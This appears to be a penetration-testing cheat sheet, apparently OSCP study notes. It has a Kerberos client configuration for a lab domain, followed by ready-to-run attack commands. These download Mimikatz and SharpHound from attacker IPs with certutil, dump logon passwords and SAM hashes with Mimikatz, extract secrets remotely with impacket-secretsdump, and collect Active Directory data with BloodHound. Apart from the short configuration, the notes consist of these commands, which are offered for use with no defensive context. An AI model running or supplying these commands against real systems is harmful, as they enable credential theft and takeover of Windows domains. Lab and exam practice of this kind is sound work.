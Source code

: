 ```jsx
[libdefaults]
	default_realm = NAGOYA-INDUSTRIES.COM
	kdc_timesync = 1
	ccache_type = 4
	forwardable = true
	proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
	fcc-mit-ticketflags = true

[realms]	
	NAGOYA-INDUSTRIES.COM = {
		kdc = nagoya.nagoya-industries.com
	}

[domain_realm]
	.nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```

```jsx
240.0.0.1 nagoya.nagoya-industries.com
```

## Mimikatz

```jsx
certutil -urlcache -split -f http://192.168.45.241/mimikatz.exe
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

token::elevate
lsadump::sam
```

```jsx
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::msv" "lsadump::sam" "exit"
```

### impacket-secretsdump

Surely we can extract with secretsdump from ntds, system or sam that we grab. But more we can extract passwords remotely!

```jsx
impacket-secretsdump oscp/emmet@10.10.1.202
```

## Bloodhound

```jsx
certutil -urlcache -split -f http://192.168.45.171/SharpHound.ps1
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Windows\Temp\
```

